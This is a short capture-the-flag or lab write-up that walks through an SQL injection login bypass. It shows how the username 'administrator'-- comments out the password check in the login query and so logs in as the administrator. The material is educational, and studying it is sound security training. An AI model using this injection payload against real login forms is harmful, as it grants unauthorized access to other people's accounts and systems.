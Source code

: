 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 2
---
```


![1](https://github.com/Knign/Write-ups/assets/110326359/3d55e63d-dcdb-4972-b78e-fd7d1644b826)

Let's login using the following credentials:


| Username | Password |
| -------- | -------- |
| test         | test         |

The resultant SQL query will be:

```
SELECT username FROM users WHERE username = 'test' AND password = 'test'
```

This will obviously not log us in as the administrator.

We can next try the following credentials:

| Username | Password |
| -------- | -------- |
| administrator'--         | password         |

The resultant SQL query will be:

```
SELECT username FROM users WHERE username = 'administrator'--' AND passsword = 'password'

## Queried part:
SELECT username FROM users WHERE username = 'administrator'

## Commented part:
' AND passsword = 'password'
```

Since we are commenting out the WHERE clause that requires the password, we will be logged in even if the password is not `password`.

![6](https://github.com/Knign/Write-ups/assets/110326359/bb092920-9e71-4bec-9962-4be51d367861)

We have solved the lab.

![7](https://github.com/Knign/Write-ups/assets/110326359/a3977cd1-0bef-49e6-bc77-8806b451594c)
